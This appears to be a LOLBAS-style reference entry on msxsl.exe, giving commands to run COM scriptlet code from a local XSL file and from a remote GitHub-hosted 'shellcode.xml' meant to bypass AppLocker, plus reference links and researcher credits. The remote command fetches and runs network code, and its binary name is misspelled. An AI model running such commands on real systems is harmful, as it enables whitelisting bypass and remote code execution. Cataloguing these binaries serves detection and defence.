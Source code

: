 ## Msxsl.exe
```

msxsl.exe customers.xml script.xsl
Run COM Scriptlet code within the script.xsl file (local).

msxls.exe https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml
Run COM Scriptlet code within the shellcode.xml(xsl) file (remote).
```
* Windows binary: False   
* Bypasses Default AppLocker Rules: False   
* Mitre: []()   
   
* Links:   
  * https://twitter.com/subTee/status/877616321747271680
  * https://github.com/3gstudent/Use-msxsl-to-bypass-AppLocker
  * https://bohops.com/2018/01/23/loading-alternate-data-stream-ads-dll-cpl-binaries-to-bypass-applocker/
  * https://twitter.com/bohops/status/955659561008017409
   
* File path:   
  * 
   
* Acknowledgement:   
  * Name: Casey Smith
    * Twitter: [@Subtee](https://twitter.com/@Subtee)
    * Blog: https://subt0x11.blogspot.com/
  * Name: 3gstudent
    * Twitter: [@3gstudent](https://twitter.com/@3gstudent)
    * Blog: https://3gstudent.github.io/
   
OS:  
